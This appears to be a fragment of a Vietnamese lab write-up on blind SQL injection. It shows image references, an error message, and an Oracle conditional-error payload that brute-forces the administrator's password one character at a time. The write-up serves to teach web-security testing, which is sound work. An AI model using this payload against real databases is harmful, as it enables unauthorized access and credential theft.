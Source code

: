  ![alt text](image-53.png)
 ![alt text](image-54.png)
Có lỗi xảy ra
Ta thực hiện bruteforce với payload sau:
' AND (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'c' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ='a